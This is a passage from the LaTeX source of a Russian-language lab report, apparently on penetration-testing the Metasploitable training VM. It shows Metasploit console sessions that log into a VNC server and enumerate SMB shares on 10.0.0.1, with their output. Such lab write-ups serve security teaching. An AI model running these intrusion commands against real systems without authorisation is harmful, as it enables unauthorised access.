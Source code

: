 \begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 10.0.0.1
[*] exec: vncviewer 10.0.0.1

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/1.png}
	\caption{Атака на VNC}
\end{figure}

\subsection{Атака на SMB}
SMB - протокол для обмена файлами в локальной сети.

\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > set RHOSTS 10.0.0.1
RHOSTS => 10.0.0.1
msf auxiliary(smb_enumshares) > exploit

[+] 10.0.0.1:139 - print$ - (DISK) Printer Drivers
[+] 10.0.0.1:139 - tmp - (DISK) oh noes!
[+] 10.0.0.1:139 - opt - (DISK) 
[+] 10.0.0.1:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 10.0.0.1:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\subsection{Атака на IRC}
IRC - протокол для групповых чатов.

